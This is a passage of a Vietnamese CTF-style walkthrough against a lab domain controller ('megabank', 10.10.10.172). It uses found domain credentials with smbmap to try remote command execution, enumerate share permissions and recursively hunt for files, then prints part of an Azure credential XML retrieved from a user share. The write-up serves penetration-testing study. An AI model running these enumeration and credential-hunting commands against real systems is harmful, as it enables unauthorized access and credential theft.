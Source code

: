 Điều này đã thành công và đã có được thông tin xác thực domain hợp lệ: `SABatchJobs / SABatchJobs`. Xem liệu có thể sử dụng tài khoản này để thực thi command trên máy chủ hay không.

```
smbmap -u SABatchJobs -p SABatchJobs -d megabank -H 10.10.10.172 -x whoami
```

Cách này không thành công. Thay vào đó, có thể sử dụng `smbmap` để enum các remote file share, enum các quyền.

![alt text](image-7.png)

Tiếp theo, thu thập dữ liệu share của user để tìm các file có thể thú vị, chẳng hạn như tài liệu Office, file text và file XML.

```
smbmap -u SABatchJobs -p SABatchJobs -d megabank -H 10.10.10.172 -A '(xlsx|docx|txt|xml)' -R
```

![alt text](image-8.png)

Thao tác này sẽ hiển thị file `azure.xml` được tự động tải xuống.

```
cat 10.10.10.172-users_mhope_azure.xml

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
```